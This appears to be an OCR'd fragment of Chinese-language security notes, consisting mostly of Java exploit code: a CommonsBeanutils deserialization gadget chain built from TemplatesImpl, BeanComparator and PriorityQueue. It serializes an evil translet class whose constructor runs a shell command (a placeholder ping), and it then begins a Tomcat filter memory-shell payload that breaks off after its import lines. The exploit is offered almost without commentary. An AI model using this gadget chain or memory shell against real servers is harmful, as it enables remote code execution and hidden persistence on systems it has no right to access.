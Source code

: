 ```plain
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Serialize_Evil.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "123");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        setFieldValue(priorityQueue, "queue", new Object[]{templates, templates});
        setFieldValue(priorityQueue, "size", 2);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        System.out.println(toHexAscii(baos.toByteArray()));
    }
}
```

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class  Serialize_Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Serialize_Evil() throws Exception {
        super();
        Runtime.getRuntime().exec("ping xxxxx");
    }
}
```

如果要打一个filter内存马

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
```